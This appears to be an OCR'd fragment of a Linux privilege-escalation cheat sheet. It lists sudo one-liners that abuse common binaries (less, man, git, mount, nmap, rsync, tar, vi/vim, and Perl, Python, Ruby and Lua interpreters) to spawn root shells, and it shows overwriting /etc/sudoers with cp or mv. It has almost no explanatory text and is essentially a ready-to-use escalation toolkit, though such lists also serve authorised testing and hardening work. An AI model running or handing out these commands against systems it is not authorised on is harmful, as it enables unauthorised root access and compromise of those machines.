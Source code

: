 less: !bash

man:  !bash or $ sudo man -P whoami man

more:  !bash

- **file modifications (cannot be consider as LOLbins but useful for privilege escalation)**

cp: sudo cp -f your_file /etc/sudoers

mv: sudo mv -f your_file /etc/sudoers

  

- **ftp / sftp**

ftp> ! ls

- **git**

export PAGER=./runme.sh

sudo git -p help

- **mount**

sudo mount -o bind /bin/bash /bin/mount

sudo mount

- **nmap**

echo "os.execute('/bin/sh')" > /tmp/script.nse

sudo nmap --script=/tmp/script.nse

- **rsync**

echo "whoami > /tmp/whoami" > /tmp/tmpfile

sudo rsync  -e 'sh /tmp/tmpfile' /dev/null 127.0.0.1:/dev/null 2>/dev/null

  

cat whoami 

root

- **scripting languages**

lua:  os.execute('/bin/sh')

perl:  sudo  perl -e 'exec "/bin/sh";'

python: sudo  python -c 'import os;os.system("/bin/sh")'

ruby:  sudo ruby -e 'exec "/bin/sh"'

- **tar**

sudo tar cf archive.tar * --checkpoint=1 --checkpoint-action=exec=sh

text editor

vi:  sudo vi -c '!sh' or :!bash or :set shell=/bin/bash:shell or :shell

vim :  sudo vim -c '!sh' or :!bash or :set shell=/bin/bash:shell or :shell

